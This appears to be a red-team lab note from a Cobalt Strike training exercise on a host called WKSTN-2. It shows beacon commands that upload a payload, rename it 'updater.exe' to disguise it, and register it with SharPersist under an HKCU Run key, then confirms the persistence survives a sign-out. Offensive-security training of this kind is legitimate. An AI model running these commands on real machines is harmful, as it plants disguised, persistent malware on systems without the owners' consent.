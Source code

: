 Common userland persistence methods include:
- HKCU / HKLM Registry Autoruns
- Scheduled Tasks
- Startup Folder

I'm going to Use the Registry AutoRun method to establish a registry persistence key.
```powershell
beacon> cd C:\ProgramData
beacon> upload C:\Payloads\http_x64.exe
```
![[Pasted image 20230825123135.png]]
Renaming http_x64.exe to update.exe
```powershell
beacon> mv http_x64.exe updater.exe
```
![[Pasted image 20230825123356.png]]
Utilizing SharPersist.exe to put updater.exe into the registry key HKCURUN and naming it UPDATER
```powershell
beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add
```
![[Pasted image 20230825123809.png]]
Going to Sign in and out of WKSTN-2 to see if the Persistence worked.

Persistence worked! Updater.exe
![[Pasted image 20230825124041.png]]